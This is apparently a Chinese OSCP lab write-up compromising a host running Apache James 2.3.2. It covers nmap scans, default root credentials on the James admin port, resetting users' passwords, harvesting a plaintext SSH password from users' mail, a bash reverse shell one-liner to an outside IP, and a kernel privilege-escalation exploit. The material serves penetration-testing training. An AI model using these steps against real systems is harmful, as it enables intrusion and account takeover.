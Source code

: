 # 10.11.1.72

**OSCP靶机::难度简单**

### 信息收集

- 使用namp端口扫描

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A --top-ports 100 10.11.1.72
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-09 03:40 EST
Nmap scan report for 10.11.1.72
Host is up (0.27s latency).
Not shown: 93 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.8p1 Debian 7ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d3:2e:10:0d:48:90:ce:9a:33:fb:66:3f:a0:a6:94:48 (DSA)
|   2048 ef:0a:3b:8e:3f:92:a4:5e:f0:ab:e7:7d:75:f0:de:0e (RSA)
|_  256 15:3a:65:3b:97:ed:e0:fc:85:bc:4b:53:48:22:61:b1 (ECDSA)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: beta Hello nmap.scanme.org (192.168.119.250 [192.168.119.250])
80/tcp   open  http    Apache httpd 2.2.20 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.20 (Ubuntu)
110/tcp  open  pop3    JAMES pop3d 2.3.2
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37261/udp   mountd
|   100005  1,2,3      45124/tcp6  mountd
|   100005  1,2,3      49571/tcp   mountd
|   100005  1,2,3      50262/udp6  mountd
|   100021  1,3,4      33309/udp6  nlockmgr
|   100021  1,3,4      35475/tcp   nlockmgr
|   100021  1,3,4      52158/tcp6  nlockmgr
|   100021  1,3,4      59085/udp   nlockmgr
|   100024  1          35948/udp6  status
|   100024  1          41677/tcp6  status
|   100024  1          50825/udp   status
|   100024  1          52011/tcp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
119/tcp  open  nntp    JAMES nntpd (posting ok)
2049/tcp open  nfs_acl 2-3 (RPC #100227)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/9%OT=22%CT=7%CU=42151%PV=Y%DS=2%DC=T%G=Y%TM=618A347
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%II=I%TS=8)OPS(O1=M
OS:54EST11NW4%O2=M54EST11NW4%O3=M54ENNT11NW4%O4=M54EST11NW4%O5=M54EST11NW4%
OS:O6=M54EST11)WIN(W1=3890%W2=3890%W3=3890%W4=3890%W5=3890%W6=3890)ECN(R=Y%
OS:DF=Y%T=40%W=3908%O=M54ENNSNW4%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
OS:T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%
OS:RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: beta; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   272.42 ms 192.168.119.1
2   272.35 ms 10.11.1.72

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.06 seconds

```

- 使用namp检测漏洞

![image-20211109165420398](http://cdn.mxrblog.cn/image-20211109165420398.png)

- 可以收集到以下信息

```
# 开放的端口以及服务
22   open  ssh
25   open  smtp
80   open  http
110  open  pop3
111 open  rpcbind
119  open  nntp
2049 open  nfs

# 使用的软件版本号
OpenSSH 5.8p1
JAMES  2.3.2
Apache  2.2.20
```

- 使用searchsploit检测James 2.3.2的漏洞

![image-20211109165901836](http://cdn.mxrblog.cn/image-20211109165901836.png)



- 查看漏洞内容，并运行脚本
- 脚本说的是运行这个脚本会生成一个../../../../../../../../etc/bash_completion.d用户，并且密码为exploit

![image-20211109200057094](http://cdn.mxrblog.cn/image-20211109200057094.png)



- 再次扫描更多的端口

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.11.1.72 -p 1-5000              
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-09 06:04 EST
Nmap scan report for 10.11.1.72
Host is up (0.26s latency).
Not shown: 4992 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
119/tcp  open  nntp
2049/tcp open  nfs
4555/tcp open  rsip
```

- 查看4555端口内容

![image-20211109195809730](http://cdn.mxrblog.cn/2.png)

- telnet登录4555端口

![image-20211109201612118](http://cdn.mxrblog.cn/image-20211109201612118.png)

- 以root用户身份登录，默认密码是root，登录后查看所有用户名称并且修改密码为123

```
user: marcus
user: john
user: mailadmin
user: jenny
user: ../../../../../../../../etc/bash_completion.d
user: ryuu
user: joe45
```



![image-20211109201931490](http://cdn.mxrblog.cn/image-20211109201931490.png)





- 使用telnet连接110端口，并且登录
- 登录方式如下：

`user xxx`

`pass xxx`

- 查看所有用户的邮件，在查到ryuu用户的时候终于发现了ssh用到的用户名与登录密码

![image-20211109202812643](http://cdn.mxrblog.cn/image-20211109202812643.png)

```
username: ryuu
password: QUHqhUPRKXMo4m7k
```

- ssh登录后我们会发现得到的是一个rbash，并且这个shell十分严格，我们无法执行任何命令
- 再次分析漏洞脚本，并且在google上搜索了该漏洞的信息，我们可以得知可以在漏洞中创建反弹shell的payload，经过测试，不适合使用列出，但是可以使用命令`/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1`
- 当我们运行完脚本后，打开nc监听端口，再次ssh用户后就会发现我们的nc已经接收到了shell，并且发现gaishell已经不是rbash
- 但是当我们运行命令如ls的时候会报错：`The command could not be located because '/bin' is not included in the PATH environment variable.`  经过google，我们添加了路径后便成功了：`export PATH=/usr/bin:/bin`

![image-20211109225059406](http://cdn.mxrblog.cn/image-20211109225059406.png)

- 经过测试，我们需要一个交互式shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 查看到内核版本后我们可以寻找关于该内核的漏洞

![image-20211109232227266](http://cdn.mxrblog.cn/image-20211109232227266.png)

- 找到适合的脚本后传到靶机上

![image-20211109232259103](http://cdn.mxrblog.cn/image-20211109232259103.png)

![image-20211109232319095](http://cdn.mxrblog.cn/image-20211109232319095.png)

- 编译后运行

![image-20211109232427980](http://cdn.mxrblog.cn/image-20211109232427980.png)

